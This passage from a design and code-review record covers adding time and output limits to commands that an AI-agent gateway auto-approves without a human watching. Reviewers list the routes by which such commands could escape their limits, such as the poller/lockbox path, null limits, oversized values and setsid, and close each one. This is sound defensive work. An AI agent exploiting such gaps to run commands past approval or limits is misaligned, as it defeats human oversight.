and is reachable by no MCP tool and no gateway token. The values live in the
`run_limit` meta key; a missing or corrupt value falls back to 60 s / 1 MiB.
The gateway keeps its own hard-coded range check, as §2 already says. Tests:
no session → 401/403; a change writes an audit row with both values.

#### 6. Tests (the Round-1 list, amended)

* Gateway: a 5 s limit stops `sleep 10` with rc 124, the marker, and
  `limit: time`; a 64 KiB limit on 2 MiB keeps exactly 65 536 bytes, sets
  `limit: bytes` and `truncated: true`; a stream that ends exactly at the cap
  is not marked cut; a byte cut reports the real `141`; a command that exits
  124 on its own is not marked `limit: time`; a human-approved run is
  unbounded; out-of-range or non-numeric values refuse the call and run
  nothing; a limit without GNU `timeout` is refused (BusyBox stub); a capped
  run and a failing command still produce the envelope, the F5 row and the
  right exit code; a newline-free stream larger than the cap is cut at the
  cap and `sed` never holds more.
* Dashboard: a limit for every auto-approval reason (the generated test);
  absent-then-present and present-then-absent across responses; two limits
  combine to the smaller; corrupt values fall back or refuse; the settings
  endpoint's auth and audit; an unattended row never appears in `/api/poll`;
  a request without the per-request capability gets `read-lane-no-limits`
  even when the stored column says v1.

#### 7. What stays out of scope, and one accepted risk

§5 stands. In addition: over a plain-HTTP `dashboard_url` a network attacker
could drop `run_limit` from a response, but such an attacker can already forge
an approval on that path; F19 is not protection against that, and the note
says so rather than counting it.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 429.22s (0:07:09)` (docs only; no code on this branch).

### Round 3 — design after review round 2 (Q1–Q2)

Round 2 is the design of record except for §3, which Q1 redraws, and §2/§4 for
Q2. Both assume the CI fix (`fix/ci-environment`) is merged first: there is no
FIFO and no second reader.

#### Q1 — redrawn §3 on the new capture code

`fix/ci-environment` replaced `tee` + FIFO + `wait` with one awk,
`capture_tail "$ESHU_OUT_TAIL"`, under `set +e` with `PIPESTATUS[0]`. Two
consequences for this note:

* **`capture_tail` keeps the *last* 16 KiB, not the first**, and it appends a
  newline when the stream has none (C4). It therefore cannot be the cut probe:
  its size says "the output was at least 16 KiB", not "the cap was hit".
* **The cut probe is its own file.** `cap_visible` tees the sanitized stream
  into `ESHU_LIMIT_PROBE` (bounded by `bytes + 1`, in the 0700 run dir,
  trap-removed); `stat -c '%s'` greater than `bytes` means cut. It holds
  sanitized bytes only, so it is safe to write; it is never stored as a result.

The probe byte means the agent may see one byte past the cap; the stored tail
is F5's own 16 KiB and the probe is deleted at exit.

```bash
cap_raw()     { if [ -n "$RUN_LIMIT_BYTES" ]; then head -c $((RUN_LIMIT_BYTES + 1)); else cat; fi; }
cap_visible() {
  if [ -n "$RUN_LIMIT_BYTES" ]; then
    head -c $((RUN_LIMIT_BYTES + 1)) | tee "$ESHU_LIMIT_PROBE"
  else
    cat
  fi
}

run_sanitized() {
  local rc=0 mode ... run_argv=("$@")
  if [ -n "$RUN_LIMIT_SECS" ]; then
    run_argv=(timeout -k 5 "$RUN_LIMIT_SECS" "${run_argv[@]}")
  fi
  ESHU_LIMIT_PROBE=""
  if [ -n "$RUN_LIMIT_BYTES" ]; then
    ESHU_LIMIT_PROBE=$(mktemp -p "$ESHU_RUN_DIR" eshu-limit.XXXXXX) || {
      say "[LOCKED] The run limit cannot be enforced (no probe file) — refusing."
      finish refused 1
    }
    trap 'rm -f "$ESHU_OUT_TAIL" "$ESHU_MCP_CAP" "$ESHU_LIMIT_PROBE"' EXIT
  fi
  set +e
  if [ "$ESHU_MCP" = "1" ]; then
    # Q1: the redirect belongs on the stage that feeds the envelope.
    "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible \
      | tee "$ESHU_MCP_CAP" >/dev/null
  elif [ "$mode" = "tail" ] && [ -n "$ESHU_OUT_TAIL" ]; then
    "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible \
      | capture_tail "$ESHU_OUT_TAIL"      # F5: last 16 KiB, no FIFO
  else
    # Direct mode with capture off: the agent is the only consumer.
    "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible
  fi
  _ps=("${PIPESTATUS[@]}")
  set -e
  rc=${_ps[0]}
  LIMIT_HIT=""
  if [ -n "$ESHU_LIMIT_PROBE" ] && \
     [ "$(stat -c '%s' "$ESHU_LIMIT_PROBE")" -gt "$RUN_LIMIT_BYTES" ]; then
    LIMIT_HIT="bytes"
  fi
}
```

`_ps[0]` is the command's (or `timeout`'s) status; the direct `capture_tail`
pipeline has the same `PIPESTATUS` shape as the CI fix, so `rc` never becomes
the trimmer's. The MCP branch keeps F12's rule that the command's own output
never reaches stdout; the envelope's `truncated` is still F12's 64 KiB rule,
independent of the run cap.

#### Q2 — `ssh_exec`'s wait loop and unattended rows

An unattended row is never delivered by the poller (L3), so it is consumed
only when the gateway claims `/api/ticket/{id}` — in the same round trip for
an MCP call, and on a re-run otherwise. If that claim fails (a network blip),
the row stays `approved` until it expires, so a `wait` loop that only watches
for `consumed` would spin until the deadline.

**Decision:** `check_request` says exactly what to do, and `wait` follows it:

* an approved **unattended** row → `next_step = "approved (unattended):
  re-run now"`; a `consumed` row → "ready to re-run" (as in F12 M2); a plain
  approved row → "approved, delivering to the gateway — do not re-run yet";
* `ssh_exec`'s `wait` re-runs at `consumed`, **or** at `approved` when the row
  is unattended. That re-run claims by id and carries the `run_limit` in the
  same response, so it cannot race the poller (the poller never receives the
  row) and a failed claim simply leaves the row approved for the next try;
* the row exposes `unattended` from the same `requests` row the dashboard
  already reads (`get_request_row`), so the wait loop does not infer it from
  the reason text.

Test: a simulated claim failure (the row is `approved`, not `consumed`) makes
`wait` re-run once with the limit instead of waiting out the deadline.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 431.41s (0:07:11)` (docs only).

### Round 4 — Q3 (round 3 review): the MCP capture is bounded

Round 3's MCP branch finished in `tee "$ESHU_MCP_CAP" >/dev/null`, which has
no cap when no `run_limit` is set — every human-approved MCP run. A large
output would grow the file on `/run` without limit. Q3 replaces it with the
same ring F12 now uses:

```bash
if [ "$ESHU_MCP" = "1" ]; then
  "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible \
    | capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null
elif [ "$mode" = "tail" ] && [ -n "$ESHU_OUT_TAIL" ]; then
  "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible \
    | capture_tail "$ESHU_OUT_TAIL"
else
  "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible
fi
```

`capture_tail` takes the byte cap as `$2` (F12/CI fix) and keeps the last
`cap` bytes in a ring, so the envelope's 64 KiB rule still holds and a run
with no `run_limit` cannot fill `/run`. The old `tee` was written by
`cap_visible` into a file with no bound.

Test, in the F19 suite: 2 MiB of MCP output with **no** `run_limit` leaves an
`ESHU_MCP_CAP` of at most 65 537 bytes and an envelope of at most 64 KiB
(the +1 byte is what tells "cut" from "exactly at the cap").

**B4 correction.** The buffering fix (`fix/stream-unbuffered`) puts
`stdbuf -oL` on `sanitize`, and F19's pipeline uses that `sanitize`
unchanged. The review also expected mawk to get `-W interactive`; it does
not, because that option makes mawk split records longer than 4096 bytes
(measured: a 20 000-byte line becomes five records), which would corrupt the
agent's stream. The F5 round-6 note records the measurement. F19's time
limit stays the bound for unattended runs whatever the buffering does.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 426.61s (0:07:06)` (docs only).

### Reviewer notes

**Design round 1 (2026-11-09, main feature reviewer): changes requested.** The
shape is right:
* limits apply only to rows approved with nobody watching, keyed by the
  dashboard's `reason`;
* a present-but-unusable limit refuses the call;
* a reported `run_limits: v1` capability, not a version string, gates
  auto-run;
* the probe byte tells "cut" apart from "ended exactly at the cap".

Four pieces of the bash or the flow would misbehave:

* **D1 In direct mode the agent would see nothing.** The capped pipeline
  ends `| tee "$ESHU_OUT_FIFO"; } >/dev/null`, which throws away the stdout
  the agent reads. `>/dev/null` belongs only to MCP mode (F12's rule). In
  direct mode, tee must still write to stdout.
* **D2 A byte cut reports 141, not 0.** When `head` closes after
  `bytes+1`, the writer gets SIGPIPE, so `PIPESTATUS[0]` is `141` (or the
  shell's status after `sanitize` dies). The note says the sentinel stays
  "typically `[ESHU exit=0]`". Decide one rule and test it. My suggestion:
  report the real `141`, add the `[ESHU limit: output cut …]` marker, and
  set `limit: bytes`, so the agent knows the command did not finish on its
  own.
* **D3 `set -e` aborts the script.** The new pipeline has no `||` guard.
  Under `set -eo pipefail`, a non-zero pipeline (124 or 141) exits the
  gateway before the marker, `post_exec_result` or the envelope. Use
  `set +e; …pipeline…; _ps=("${PIPESTATUS[@]}"); set -e`, then read
  `_ps[0]`. A `|| true` would overwrite `PIPESTATUS`. Add a test that the
  marker and the F5 row appear after a time stop and after a byte cut.
* **D4 The lockbox path runs unattended rows unbounded.** §2 says a
  lockbox ticket "has no limit by construction: those rows were approved by
  a human". That is not true. `update_ticket_consumed_by_ip` (the poller)
  deposits **any** `approved` row, read-lane ones included, and a lockbox
  claim then runs with no `run_limit`. This happens whenever the poller beats
  the gateway's JIT poll, when a direct agent reconnects, and always in F12
  MCP mode, where the gateway returns `pending` at once and the re-run
  claims from the lockbox. Fix both halves:
  * The poller never receives an unattended row:
    `update_ticket_consumed_by_ip` skips `reason IN ('read-lane', …)`, so
    those rows can only be claimed through `/api/ticket/{id}`, which carries
    the limit.
  * In MCP mode, when `/api/request` answers with the row already
    `approved` (the read lane), the gateway claims it through
    `/api/ticket/{id}` and runs it with its limit straight away, instead of
    returning `pending`. That also removes one case of F12's M2 race.
  * Tests: an unattended row never appears in `/api/poll`; an MCP read-lane
    call runs bounded in one round trip.

*Should fix:*

* **S1** On GNU `timeout`: without `--foreground` it signals the command's
  **process group**, so ordinary background children are stopped too. Only
  a child that calls `setsid` escapes. Correct §3's last bullet, and say
  that BusyBox `timeout` signals only the child, so the capability check
  must be specific to GNU `timeout`.

This goes to the security reviewer too (§ 2.6a). They are reviewing the same
note in parallel, so fold in both sets of findings together.

#### Security reviewer sign-off

**Design review (4d18218), 2026-11-09: changes requested on the design.**
The approach is sound: the limit is set by the dashboard, enforced by the
gateway, and refuses to run when the value is broken. Eight conditions must
be in the note before code starts. L3 is the important one, because without
it the limit can be skipped. I will re-read only the sections that change.

* **L1. Bounded by default, with a list of exemptions.** As written, a
  limit applies only where `reason = read-lane`. F15, F16 and any later
  path would each need to remember to add themselves.
  - Turn this around: the dashboard sends a `run_limit` for every row it
    approves without a human approving that exact command.
  - Name the exemptions in the note as an accepted risk: a JIT click, plans,
    session overrides and host overrides, because they can legitimately run
    for a long time.
  - The gateway-local paths (the allowlists and windows) stay as they are.
  - Test: a row with any new auto-approval reason gets a limit.
* **L2. Once a limit is set, it stays.** It can arrive on three responses.
  - The first limit seen applies to the whole call. A later response that
    leaves it out does not clear it, and two different limits mean the
    smaller one applies.
  - `parse_run_limit` must return three different results: absent, valid or
    invalid. Today it returns 1 both when the field is missing and when it
    is broken.
  - The sketch splits `"60 1048576"` with `set -- $secs`, but the script
    sets `IFS` to newline and tab, so that split never happens. Use
    `read -r` with a tab separator.
  - Tests: the limit is absent on one response and present on another; a
    present but broken limit is refused.
* **L3. Every path that can run an unattended row carries its limit.** The
  note's claim that a lockbox ticket "has no limit by construction" is
  wrong for read-lane rows. The poller can move an approved read-lane row
  into the lockbox. Stage 5 then runs it *before* any `/api/request`
  response is read, with no limit. Three routes lead there:
  - the MCP re-run: F12 returns `pending` and calls again, and the feature
    reviewer's M2 makes that re-run wait for `consumed`;
  - a direct retry after the 90-second wait;
  - a poller that gets there first.

  Pick one fix and write it down. I recommend these two together:
  - `/api/poll` never puts an unattended row in the lockbox. The row is
    claimed only through `/api/ticket/{id}`, which carries the limit.
  - In MCP mode, a row that the `/api/request` response shows as already
    approved is claimed and run in the same call instead of returning
    `pending`.

  The alternative is a lockbox line that carries the limit, which means a
  new ticket tag and a capability check. Tests, for each route: a lagging
  poller, an MCP re-run and a direct retry. None of them runs a read-lane
  row without its limit.
* **L4. The pipeline must survive `set -e` and keep direct-mode output.**
  - The sketch sends the whole group to `/dev/null`, so a direct-SSH agent
    would see nothing. Only MCP mode should discard stdout.
  - The sketch has no `||` and runs under `set -eo pipefail`, so any
    non-zero exit, or the SIGPIPE when `head` closes, would end the gateway
    before the envelope and the F5 row are written.
  - Copy `PIPESTATUS` in the same statement as the pipeline, with errexit
    switched off around it.
  - Test: a capped run and a failing command both still produce the
    envelope, the F5 row and the right exit code.
* **L5. Cap the raw stream before `sanitize` as well.** `sanitize` is
  `sed`, which holds a whole line in memory until it sees a newline. A long
  stream with no newlines, which some pseudo-files under the read-lane trees
  can produce, grows `sed`'s memory without limit until the timer fires.
  - Put a `head -c` (bytes + 1) before `sanitize` as well as after it.
  - Decide whether the output was cut from the raw stream, because redaction
    changes lengths.
  - Test: a newline-free stream larger than the cap is cut at the cap, and
    `sed` never holds more than the cap.
* **L6. The time limit bounds the whole call, not just its direct child.**
  GNU `timeout` signals the process group. BusyBox `timeout` signals only
  the child, so a grandchild that keeps the pipe open would hold the call,
  and the ticket's run, past the limit.
  - Requirement: when the limit fires, the call returns within the limit
    plus the kill grace plus a few seconds, and nothing the run started is
    left running.
  - Test with a stub `timeout` that behaves like BusyBox's.
* **L7. The script that is running reports the capability on each request,
  not just at registration.** A poller self-update or a rollback can change
  the script without re-registering, and then the stored `run_limits: v1`
  is stale.
  - The gateway sends `"run_limits":"v1"` in the `/api/request` body.
  - The dashboard auto-approves an unattended row only when that request
    carries it.
  - Keep the stored column for the gateway card.
  - Test: a request without the field gets `read-lane-no-limits` even when
    the gateway row says v1.
* **L8. The settings endpoint is for operators only.**
  - `PUT /api/settings/run-limit` uses the same session login and CSRF
    protection as the other operator settings, and every change is audited
    with the old and new values.
  - No MCP tool and no gateway token can reach it.
  - The gateway keeps its own hard-coded range check, as the sketch already
    does.
  - Tests: no session means 401 or 403; a change writes an audit row.

*Smaller points:*

* A command can exit 124 on its own, so mark `time` only when
  `rc == 124` and the time elapsed is at least the limit.
* A byte cut normally ends the command with SIGPIPE (141), not 0. The note
  should say so. It also means the byte cap stops a runaway command, which
  is the point.
* Over plain-HTTP `dashboard_url`, a network attacker could drop
  `run_limit`, but they could already forge an approval there. Nothing new;
  I mention it so nobody counts F19 as protection on that path.

**For the F4 `on` gate:** F19 meets the fourth precondition only once L3
and L7 are implemented, merged and deployed fleet-wide. Without L3, the
lockbox route runs read-lane commands with no limit.

**Design round 2 (feature reviewer, 2026-11-10, `39ed243`): approved, with
one change before code (Q1).** D1–D4 and S1 are folded in correctly:
* direct-mode output kept;
* `PIPESTATUS` copied with errexit off;
* the real 141 reported;
* `limit: time` only for 124 plus elapsed time;
* the poller never gets an unattended row, so every route carries the limit.

* **Q1 (must): base the pipeline on the new capture code.** The § 3 sketch
  still uses `ESHU_OUT_FIFO`/`tee`/`wait "$ESHU_TAIL_PID"`. The CI fix
  (`fix/ci-environment`, merging before this) removes the FIFO and the
  second reader: capture is now `… | sanitize | capture_tail "$ESHU_OUT_TAIL"`,
  with `set +e` and `PIPESTATUS[0]`. Redraw § 3 on that code, and on F12's
  MCP envelope capture (`ESHU_MCP_CAP`) if F12 merges first:
  `"${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible | capture_tail …`.
  * `capture_tail` keeps the last 16 KiB, not the first. Say how the
    `bytes + 1` cut probe now works: count the visible bytes in
    `cap_visible`, or compare the stored size with `stat`. Remember that
    `capture_tail` adds a newline when the stream has none (C4).
  * In MCP mode, the stdout redirect goes on the stage that feeds the
    envelope, not on a `tee`.
* **Q2 (should): `ssh_exec`'s wait loop and unattended rows.** F12's `wait`
  re-runs at `consumed`. An unattended row is now consumed only through
  `/api/ticket/{id}` in the same round trip. If that claim fails (for
  example, a network blip), `wait` sees `approved` until the row expires.
  Say what the agent gets: I suggest `check_request` shows
  `approved (unattended): re-run now`, because the re-run claims by id and
  carries the limit, so it cannot race the poller.

After Q1, to the security reviewer, for the sections that change (§ 3, plus
§ 4 if Q2 changes it).

**Design round 4 (feature reviewer, 2026-11-10, `9b355a4`): approved; to the
security reviewer (§ 2.6a).** Q3 is folded: the MCP branch ends in
`capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null`, with the 2 MiB / no
`run_limit` test. The B4 correction is right (no `-W interactive`; on a newer
mawk it truncates rather than splits). As the round 4 note says, F19's time
limit, not buffering, is the bound for unattended runs.

**Design review of Rounds 2–4 (`2286b43`), 2026-11-10: approved.** I read
Rounds 2 and 3 as well as Round 4, because they answer L1–L8.

* **L1:** one `approve_unattended()` helper, and a generated test that fails
  when an unattended row has no limit. The exemptions are named.
* **L2:** absent, valid and invalid are distinct; a limit stays once set;
  the smaller value wins; the field is read with a tab separator.
* **L3:** the poller never receives an unattended row. MCP claims through
  `/api/ticket/{id}` in the same round trip, and the Q2 wait rule follows
  `unattended`.
* **L4:** errexit is off around the pipeline only, and `PIPESTATUS` is
  copied in the next statement.
* **L5:** there is a raw cap before `sanitize`. Deciding a cut on the
  visible stream is a sensible trade, and no unsanitized bytes are written.
* **L6:** GNU `timeout` is part of the capability, and a limit received
  without it is refused rather than half-applied. One gap remains: a
  process that calls `setsid` escapes the group kill. No read-lane verb can
  do that today. Any later unattended path (F15 probes, F16 `auto_run`)
  must keep that true.
* **L7:** the capability travels on each request, so the stored column is
  for display only.
* **L8:** the operator session, CSRF and audit, with no MCP or token
  access.
* **Q3:** the MCP capture goes through `capture_tail` at 65537, so a
  human-approved MCP run cannot fill `/run`. One thing to state plainly in
  the design: in MCP mode nothing reaches the SSH channel until the
  envelope, so a dropped connection is not noticed while a human-approved
  MCP run is still going. That is F12's accepted §4 risk, and F19 bounds it
  only for unattended rows.

*One condition at code time (the feature reviewer can check it):*

* **W1. The probe file uses the same directory check as the capture.**
  Round 3 runs `mktemp -p "$ESHU_RUN_DIR"` for the probe whenever there is a
  byte limit. Under `exit-only`, the directory check in `run_sanitized` is
  skipped. Apply the same check (0700, owned by root, not a symlink) before
  creating the probe, and refuse the call if it fails. Test: an unsafe
  `/run/eshu` with a `run_limit` refuses the call and runs nothing.

**For the F4 `on` gate:** F19 meets the fourth precondition once this code
(L3, L6, L7 and W1 included) is merged and deployed fleet-wide. The gateway
bash comes back to me before merge.

**W1 confirmed (feature reviewer, 2026-11-10).** On `feature-roadmap` the
`/run/eshu` check (a directory, not a symlink, mode 700, owned by
`ESHU_RUN_OWNER`) runs only inside `if [ "$mode" = "tail" ]`
(`eshu-gateway.sh`, `run_sanitized`). The Round 3 probe's
`mktemp -p "$ESHU_RUN_DIR"` runs whenever there is a byte limit, so under
`exit-only` it would create the file in an unchecked directory. At code time,
move the four tests into one `run_dir_safe()` helper that the capture, the
probe and F12's `ESHU_MCP_CAP` all call. A failed check disables capture
(as today) but **refuses** a limited run, as the security reviewer asked.
Test: an unsafe `/run/eshu` with a `run_limit` refuses the call and runs
nothing; with no `run_limit` the call runs as before.

### Round 5 — implementation (code round)

**Branch `feat/f19-unattended-limits`, on top of `feature-roadmap` at
`c0954cc`** (merge `8865712`). The gateway bash is the part that goes to the
security reviewer before merge.

**Gateway (`dashboard/eshu-gateway.sh`, installers regenerated).**

* **The limit travels and is parsed three ways (L2).** `parse_run_limit` uses
  `python3 -I -c` and prints `absent`, `valid	<s>	<b>` or `invalid`; a later
  response without the field keeps the first limit, two limits take the
  smaller per field, and a present but unusable one refuses the call
  (`[LOCKED] Invalid run_limit …`). Out of range (5–300 s, 65 536–8 388 608
  bytes), non-integer, boolean, list and non-JSON are all `invalid`.
* **Capability (L6/L7).** `RUN_LIMITS_CAP=v1` only when
  `timeout --version` names GNU coreutils; it is sent on **every**
  `/api/request` as `"run_limits"`, and a limit received without it is refused
  (never half-applied). The installer reports the same value at `/api/register`
  (an absent field keeps the stored value; the column is display only).
* **W1.** One `run_dir_safe()` (directory, not a symlink, mode 700, owner
  `ESHU_RUN_OWNER`) is used by the F5 tail capture, F12's `ESHU_MCP_CAP` and
  the F19 probe. An unsafe directory still disables `tail` capture and still
  refuses an MCP capture; with a byte limit it now **refuses the run**.
* **Pipeline.** `run_argv` gets `timeout -k 5 <secs>` when a time limit is
  set; each branch is
  `… | cap_raw | sanitize | cap_visible [| capture_tail …]` under
  `set +e`, with `rc=${PIPESTATUS[0]}`. `cap_raw` bounds `sed`'s input (L5);
  `cap_visible` tees the sanitized stream into `ESHU_LIMIT_PROBE` at
  `bytes + 1`. The marker and `limit: bytes` are decided from that probe
  (`stat` > bytes), never by scanning the output; `time` needs `rc == 124`
  **and** elapsed ≥ the limit. The command's real status (141 after a byte
  cut, 124 after a stop) is what `[ESHU exit=N]` and the envelope carry.
* **Q3.** The MCP branch is
  `… | capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null`: one in-stream ring, no
  unbounded `tee`, and a human-approved MCP run cannot fill `/run`.
* **L3, one round trip.** When `/api/request` answers `approved` (the
  unattended path), an MCP call claims `/api/ticket/{id}` immediately, reads
  `run_limit` beside the ticket, and runs bounded instead of returning
  `pending`. The ticket parse is now one `parse_claim_body()` used by both
  that path and the poll loop, and it understands the `v2|ts|agent|session|cmd`
  line the stub and the dashboard use.
* **`python3 -I`** on every inline interpreter in the gateway (the F12
  security note): no user site-packages and no `PYTHONPATH` reach a script
  that parses dashboard JSON.
* **F5 row.** `/api/exec-result` gains `"limit":"time|bytes"` and a byte cut
  sets `output_truncated` even when the stored tail is short.

**Dashboard.**

* `requests.unattended` and `requests.run_limit` (JSON), additive migrations;
  `request_results.limit_kind`; `gateways.run_limits` (display only).
* `approve_unattended()` in `main.py` is the only auto-approval path: it
  creates the row **approved** with the limit only when the *request* reports
  `run_limits: v1`; otherwise the row is `pending` with
  `reason = read-lane-no-limits` and a `read_lane_no_limits` audit row (L7 —
  the stored column never decides). The read lane calls it.
* `/api/request` returns `approved`, `unattended` and `run_limit`;
  `/api/request_status/{id}` and `/api/ticket/{id}` return the limit beside
  the ticket (the ticket marks the row consumed in the same call).
* `update_ticket_consumed_by_ip` skips `unattended = 1`, so the poller never
  receives one (L3).
* `GET`/`PUT /api/settings/run-limit`: operator session + CSRF, range-checked,
  audited with the old and new values (L8). Defaults 60 s / 1 MiB; a corrupt
  meta value falls back to them.
* `check_request` returns `unattended` and says
  `approved (unattended): re-run now …`; `ssh_exec`'s `wait` re-runs at
  `approved` for such a row instead of waiting for `consumed` (Q2).

**`dashboard/static/dev/eshu-gateway-install.sh`.** It is a **committed**
file (served as `dev_installer_url` to dev-mode gateways, and rewritten on
the host by a dev push; `scripts/deploy-dashboard.sh` resets it) and it was
stale: 1 281 lines with no F12 code and no `SANITIZE_CMD`. It is regenerated
from the current `static/` installer in this round; `gen_installer.py` does
not write it, so a dev push or this copy is what keeps it current.

**Tests (`tests/test_f19_limits.py`, 32).** Gateway: the parser's three
answers, stickiness, `min()` combination and eight unusable values; the
directory check (700, 755, symlink, missing, foreign owner); an MCP
unattended run capped at 65 536 bytes with the marker and `limit: bytes`; a
5 s stop (exit 124, marker, `limit: time`); an allowlisted run with no limit
and no field; an unusable limit refusing; an unsafe run directory refusing a
limited run. Dashboard: defaults and corrupt fallback; approved-with-limit vs
pending-without-capability (and the audit row); the poller skipping the row;
the ticket carrying it; both endpoints; the stored column not deciding; the
settings endpoint's auth, range and audit; `/api/exec-result` storing and
rejecting `limit`. `tests/test_gateway_script.py` gains the approved/limit
stub and its JIT-body test now expects `run_limits`.

### Round 6 — code review round 1 (AD1–AD3) and the CI failure

**Code review (feature reviewer, 2026-11-10, `51fb2a8`): three must-fixes.**
L1–L8, W1 and Q2/Q3 read right; the gateway diff now goes to security.

* **AD1 — a SIGKILLed command exits 137.** `timeout -k 5` sends SIGTERM, then
  SIGKILL five seconds later for a command that ignores it; timeout then
  exits **137**, not 124, so a stubborn command's stop was not labelled
  `limit: time`. Both codes are accepted now, under the same elapsed-time
  guard (a command that exits 137 on its own, quickly, is not a limit hit).
  Tests: `trap "" TERM; sleep 30` with a 5 s limit → exit 137, the marker and
  `limit: time`; `exit 137` immediately → no marker and no `limit`.
* **AD2 — CI was red because the runner moved to Ubuntu 26.04.** The Actions
  log for `51fb2a8` (`CI` run 42866594655, jobs 130006465478/82) shows
  `Image: ubuntu-26.04` and both Python jobs failing on the same two tests:
  the unattended MCP run came back `refused` with `exit_code 1` instead of
  `ran`. That is the **L6 capability refusal**: Ubuntu 26 ships uutils
  `timeout`, whose `--version` does not say "GNU coreutils", so
  `RUN_LIMITS_CAP` was empty and the gateway correctly refused a limit it
  cannot enforce. It passed locally on GNU coreutils. Fixes:
  - `GatewaySandbox` gains a `timeout` stub whose `--version` the test
    chooses (GNU by default) and which execs the real local `timeout` for
    behaviour, so the suite no longer depends on the runner's userland;
  - one test keeps the real case: a non-GNU `timeout --version` refuses a
    limited run and nothing runs;
  - `.github/workflows/ci.yml` is pinned to `runs-on: ubuntu-24.04` for both
    jobs, with the reason in a comment;
  - **setup note:** a gateway without GNU `timeout` reports no capability, so
    the dashboard never auto-approves an unattended row there — it stays
    `pending` with `reason = read-lane-no-limits` and the operator sees it in
    the queue. That is the fail-closed behaviour, not a bug.
* **AD3 — `docs/TOOLSHED_PLAN.md` removed.** The `feature-roadmap` merge
  (`8865712`) carried it onto this branch; it is not on `feature-roadmap`
  and is not part of F19. It is deleted in its own commit (`4a86f81`) and the
  local copy is left on disk, untracked, for the operator.
* **Nit — capture `timeout --version` first.** `TIMEOUT_VERSION=$(timeout
  --version 2>/dev/null || true)`, then grep the variable, so `pipefail`
  cannot make the capability question depend on a pipeline's scheduling. The
  installer template does the same.

The current `feature-roadmap` (F10 merged, `f7201ac`) is merged forward in
`12e51e7`; the only conflict was this document's F19 note at the end of the
status table.

`bash scripts/verify.sh`: `2678 passed, 22 skipped, 7 warnings in 561.48s (0:09:21)`.

### Round 7 — security's AF1 and AF2

**Security approved the gateway bash on two conditions; the feature reviewer
checks them here. AF3 is deliberately not on this branch** — it belongs to the
next gateway-bash branch (the session-signature check still passes the key in
argv).

* **AF1 — an unattended row must never run without a limit.** Three changes:
  - the gateway's parser now reads `unattended: true` with a missing, `null`
    or unusable `run_limit` as **invalid**, not as "absent" (absent means "a
    human approved this" and only applies without the marker);
  - the direct-SSH poll loop runs `parse_run_limit "$CLAIM_BODY"` after a
    claim, exactly as the MCP path does, so a corrupt limit in the claim is
    refused before anything runs;
  - `/api/ticket` and `/api/request_status` always send `run_limit` for an
    unattended row. A stored value that does not parse is sent as `{}`, which
    the gateway refuses — never `null`, never omitted.
  Tests: the parser refuses `unattended` with no limit, `null`, `{}` or a
  non-dict; the endpoints send `{}` for a corrupt stored limit; an MCP run
  and a poll-path run whose claim carries `"run_limit": null` are both refused
  and nothing runs.
* **AF2 — the range check lives in the Python.** `5 <= seconds <= 300` and
  `65 536 <= bytes <= 8 388 608` are checked where the JSON is parsed. Bash
  `[ -lt ]` on an integer above 2^63 errors, and inside `if` that error counts
  as false, so a huge value used to pass as `valid` and GNU `timeout` would
  treat it as effectively unbounded. The bash layer stays as a second check
  with a digit-length guard, so no oversized word ever reaches `[ -lt ]`.
  Test: `seconds: 10**30` and `bytes: 10**30` are refused.

`bash scripts/verify.sh`: `2689 passed, 22 skipped, 7 warnings in 564.62s (0:09:24)`.

**Code round 1 (feature reviewer, 2026-11-10, `90c4df7` / `51fb2a8`): the
design is implemented faithfully; three must-fixes before the security
reviewer reads the gateway bash.** Read in full: `parse_run_limit` (three
answers, `min()` per field, range-checked, `python3 -I`), the capability
reported per request and only with GNU `timeout`, `run_dir_safe()` shared by
the F5, F12 and F19 files (W1), `timeout -k 5` and `cap_raw | sanitize |
cap_visible` with the `bytes + 1` probe, `PIPESTATUS[0]`, the one-round-trip
claim by id (it always exits through `run_sanitized` → `finish`), and every
inline interpreter on `python3 -I`. The full suite passes here **with gawk
installed**: 2555 passed, 5 skipped.

* **AD1 (must): a command that ignores SIGTERM is not marked `time`.** With
  `-k 5`, GNU `timeout` sends SIGKILL after the grace period and exits **137**,
  not 124 (checked here: `timeout -k 1 1 bash -c 'trap "" TERM; sleep 5'` →
  137). The marker test is `rc -eq 124`, so the run that most needed the limit
  ends with no `limit: time`, no "[ESHU limit: stopped …]" line and no
  truncation flag. Accept 124 **or** 137 (with the same elapsed-time guard),
  and add that test.
* **AD2 (must): CI is red on `51fb2a8` (both Python jobs), although the suite
  passes locally.** `feature-roadmap` is green on the same runner label, so
  the difference is F19's. The likely cause: `ubuntu-latest` moved to Ubuntu
  26 in October 2026, which ships the Rust coreutils (`uutils`) as
  `timeout`. `timeout --version` then does not say "GNU coreutils", so
  `RUN_LIMITS_CAP` is empty and every test expecting `run_limits: v1` (and
  the F4 auto-approval tests) fails. **Confirm from the Actions log first.**
  If it is that:
  * the tests must not depend on the runner's `timeout` flavour. Give
    `GatewaySandbox` a stub `timeout` whose `--version` is chosen per test, and
    keep one test that a non-GNU `timeout` refuses a limited run;
  * pin the workflow to `runs-on: ubuntu-24.04`, so the gateway tests do not
    change under us (this was already on the list);
  * say in the setup doc that a gateway whose `timeout` is not GNU
    (Ubuntu 26's default, BusyBox) reports no capability, so its unattended
    rows stay `pending` (`read-lane-no-limits`). That fails closed, but the
    operator should know.
* **AD3 (must): drop `docs/TOOLSHED_PLAN.md` from the branch.** It is not on
  `feature-roadmap` or `master`; the merge commit `8865712` added it (899
  lines, a 2026-11-06 draft plan). It has nothing to do with F19, and this
  repo is public. Remove it in a normal commit, and ask the operator whether
  the file is theirs and where it belongs.
* **Nit:** `timeout --version | grep -q …` runs under `pipefail`. The output is
  small enough that it does not race today, but capture it to a variable
  first so the check cannot flip on an early `grep` exit.
* **Noted:** the regenerated `static/dev/eshu-gateway-install.sh` answers the
  security reviewer's F12 note N-b. Nothing regenerates it in the repo (not
  `gen_installer.py`), so it will go stale again; make `gen_installer.py`
  write it in a later change.

